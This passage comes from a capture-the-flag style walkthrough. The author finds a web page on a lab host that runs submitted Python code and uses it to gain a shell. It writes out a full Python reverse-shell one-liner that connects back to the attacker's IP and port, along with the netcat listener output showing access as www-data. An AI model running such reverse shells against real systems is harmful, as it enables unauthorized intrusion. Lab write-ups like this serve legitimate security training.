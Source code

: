 

#### /manual

`/manual` takes me to a listing of languages, which is a redirect to the
English version:

![](/img/1554314894527.png)

![](/img/1554314918783.png)

All the pages are different language Apache Docs.

#### /dev

`/dev` is more interesting:

![](/img/1554315040009.png)

On hitting "Submit Query", I'm taken to
`http://10.1.1.20/dev/interpreter.php`. Interesting that the guy writing
a tutorial on Django is hosting this in php. ¯\\\_(ツ)\_/¯

If I submit with a command like `print 'A'*5`, I get:

![](/img/1554315226073.png)

So I have execution. I'll also notice that `print "A"*5` doesn't work. I
can guess that it has to do with how the php script is running the
python, and `"` might be already in use. I can confirm that by running
`print \"A\"*5`, and getting results. I'll look at the code in [Beyond
Root](#interpreterphp).

## Shell As www-data

I can use the command execution in the webpage to get a shell. I'll get
a reverse shell, update my IP and port, and then either change all the
`"` to `'` or to `\"` (both work). I'll submit:



    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.254.1.47\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);



And get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.20.
    Ncat: Connection from 10.1.1.20:56874.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
